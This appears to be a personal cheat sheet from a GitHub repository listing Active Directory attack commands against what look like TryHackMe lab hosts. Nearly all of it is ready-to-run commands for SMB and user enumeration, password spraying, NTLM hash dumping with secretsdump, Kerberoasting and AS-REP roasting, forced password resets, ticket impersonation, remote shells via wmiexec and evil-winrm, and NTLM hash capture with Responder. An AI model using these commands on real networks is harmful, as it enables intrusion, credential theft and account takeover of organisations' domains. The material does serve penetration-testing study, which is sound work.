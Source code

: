 
# AD_commands



### `crackmapexec`

enumerate the `smb` shares
```
crackmapexec smb 10.10.113.103 -u 'anonymous' -p '' --shares
```
enumerate the users
```bash
crackmapexec smb thm.corp -u 'guest' -p '' --rid-brute | grep SidTypeUser
```
spraying passwords among users
```bash
crackmapexec smb <target-ip> -u users.txt -p passwords.txt --spray
```
dump `NTLM` hashes
```bash
crackmapexec smb 192.168.1.0/24 -u admin -p password123 --ntlm > hash
```
List all users in a domain
```bash
crackmapexec smb 192.168.1.10 -u admin -p password123 --users > users
```
List all groups
```bash
crackmapexec smb 192.168.1.10 -u admin -p password123 --groups > groups
```

---

### `impacket`

### **Authentication & Password Dumping**

`secretsdump` : Extracts credentials, including `NTLM` hashes, from Windows systems via various techniques.
```bash
impacket-secretsdump vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.217.111
```

Get `SPNs` : Service Principal Names `(SPNs)` that can be used for `Kerberos` authentication attacks `(Kerberoasting)`.
```bash
impacket-GetUserSPNs -request lab.enterprise.thm/nik:ToastyBoi! -dc-ip 10.10.141.253 -output hash
```

`lookupsid`
This tool queries a remote machine for information about SIDs. It can enumerate domain user and group information by querying the `Security Account Manager` (SAM) database over the `SMB` protocol.
```bash
impacket-lookupsid anonymous@10.10.12.26 -no-pass -domain-sids
```

`GetNPUsers` : `ASREP` Roasting.

When you use the **`GetNPUsers.py`** tool from `Impacket` to dump users with the **"Do not require `Kerberos preauthentication`** option enabled, the output typically provides the following:
1. **Usernames**: A list of usernames that have the `preauthentication` requirement disabled.
2. **`Kerberos AS-REQ` Hashes**: If the user has `preauthentication` disabled, the tool retrieves the `Kerberos AS-REQ` hash (Ticket Granting Ticket Request). This hash can be cracked offline to retrieve the user's `plaintext` password using tools like **`hashcat`**.

get a specific format of specific `IP` of specific domain
```bash
impacket-GetNPUsers -request -format john  lab.enterprise.thm/nik:ToastyBoi! -dc-ip 10.10.141.253 -output hash
```

just the domain
```bash
impacket-GetNPUsers thm.corp/TABATHA_BRITT
```

from users list
```bash
impacket-GetNPUsers the.corp/ -dc-ip 10.10.42.254 -usersfile users -format john -outputfile hash -no-pass -request
```

`smbpasswd` :
The **`impacket-smbpasswd`** tool is part of the` Impacket` suite, used to change or reset a user's password on a remote `SMB` (Windows) system via the **`SAMR`** (Security Account Manager Remote) protocol.

```bash
impacket-smbpasswd DOMAIN/john.doe:oldpassword@192.168.1.10 -newpass NewPassword123!
```

`getTST`

```bash
impacket-getST -spn "cifs/haystack.thm.corp" -impersonate "Administrator" "thm.corp/DARLA_WINTERS:newP@ssword2022"
```

`wmiexec`
```bash
export KRB5CCNAME=Administrator.ccache
```

```bash
impacket-wmiexec -k -no-pass Administrator@haystack.thm.corp
```

---

### `kerbrute`

This command attempts to enumerate valid usernames from a provided list.

userenum
```bash
kerbrute userenum -d the.corp -dc 10.10.42.254 users
```

`passwordspray`

```bash
kerbrute passwordspray -d the.corp -dc 10.10.42.254 -U admin passwords
```
- -d the.corp : Specifies the domain name. 
- -dc 10.10.42.254 : The IP address of the Domain Controller. 
- -U admin : The username to brute-force. passwords.txt : The file containing the list of passwords to try

```bash
kerbrute passwordspray -d the.corp -dc 10.10.42.254 -P "Password123" users
```

---

### `SMB`

List the shares
```bash
smbclient -L //192.168.1.10 -U username
```
Get into it
```bash
smbclient //192.168.1.10/shared_folder -U username
```

---

### `ntlm_theft`

To catch `NTLM` hashes by a listnener
```bash
python ~/hacktools/ntlm_theft/ntlm_theft.py -g all -s 10.10.70.109 -f ee 
```

Responder, is the listener to catch the `NTLM` hashes
```bash
sudo responder -I tun0 -v
```

---
### `EVILWINRM`

```bash
evil-winrm -i 10.10.113.103 -u 'AUTOMATE' -p 'Passw0rd1'
```


---

### bloodhound
#### Neo4j
```bash
sudo neo4j console
```

#### bloodhound
```bash
sudo bloodhound --no-sandbox
```
#### bloodhound-python
```bash
bloodhound-python -ns 10.10.149.218 --dns-tcp -d THM.CORP -u 'automate' -p 'Passw0rd1' -c All --zip
```


---

### `net rpc`

This command is using **`net rpc`**, which is part of the **Samba suite**, to change the password of a user on a Windows machine or Active Directory domain over the **RPC (Remote Procedure Call)** protocol. Here’s a breakdown of what each part of the command does:

```bash
net rpc password "DARLA_WINTERS" "newP@ssword2022" -U CRUZ_HALL'%'newP@ssword2022' -I '10.10.113.103' -S "THM.CORP"
```
---
